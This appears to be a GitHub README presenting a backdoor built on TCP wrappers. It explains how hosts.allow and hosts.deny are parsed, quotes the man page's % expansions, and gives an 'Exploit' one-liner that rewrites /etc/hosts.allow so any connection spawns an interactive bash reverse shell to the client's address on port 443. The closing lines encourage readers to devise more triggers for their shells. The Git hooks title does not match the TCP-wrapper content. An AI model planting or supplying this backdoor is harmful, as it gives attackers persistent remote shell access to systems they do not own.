 Git hooks "backdoor"
======================

**How it works**
When a client request is received by a TCP wrapped service, it takes the following basic steps:
1. References /etc/hosts.allow. — The TCP wrapped service sequentially parses the /etc/hosts.allow file and applies the first rule specified for that service. If it finds a matching rule, it allows the connection. If not, it moves on to step 2.
2. References /etc/hosts.deny. — The TCP wrapped service sequentially parses the /etc/hosts.deny file. If it finds a matching rule is denies the connection. If not, access to the service is granted.

**How it is parsed**
ACCESS CONTROL RULES
Each access control file consists of zero or more lines of text.  These lines are processed in order of appearance. The search terminates when a match is found.
A newline character is ignored when it is preceded by a backslash character. This permits you to break up long lines so that they are easier to edit.
Blank lines or lines that begin with a `#´ character are ignored. This permits you to insert comments and whitespace so that the tables are easier to read.
All other lines should satisfy the following format, things between [] being optional:

**Syntax**
```shell-session
<daemon list>: <client list> [: <option>: <option>: ...]

```
**Translating... we can:**

```shell-session
<daemon_list>: <client list> [: <shell_command> ]

```

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=rCVmWUf8x1E" target="_blank"><img src="http://img.youtube.com/vi/rCVmWUf8x1E/0.jpg" alt="Profit with Git hooks!" width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

echo 'ALL: ALL: spawn (bash -c "/bin/bash -i >& /dev/tcp/"%a"/443 0>&1") & :allow' > /etc/hosts.allow

```

**Understand expansions...**

```shell-session
% EXPANSIONS
       The following expansions are available within shell commands:

       %a (%A)
              The client (server) host address.

       %c     Client information: user@host, user@address, a host name, or just an address, depending on how much information is available.

       %d     The daemon process name (argv[0] value).

       %h (%H)
              The client (server) host name or address, if the host name is unavailable.

       %n (%N)
              The client (server) host name (or "unknown" or "paranoid").

       %r (%R)
              The clients (servers) port number (or "0").

       %p     The daemon process id.

       %s     Server information: daemon@host, daemon@address, or just a daemon name, depending on how much information is available.

       %u     The client user name (or "unknown").

       %%     Expands to a single `%´ character.

       Characters in % expansions that may confuse the shell are replaced by underscores.
```

Hey you can use your imagination now and take advantage of EXPANSIONS and create more complex filters to trigger your shells! Keep evolving my friend!

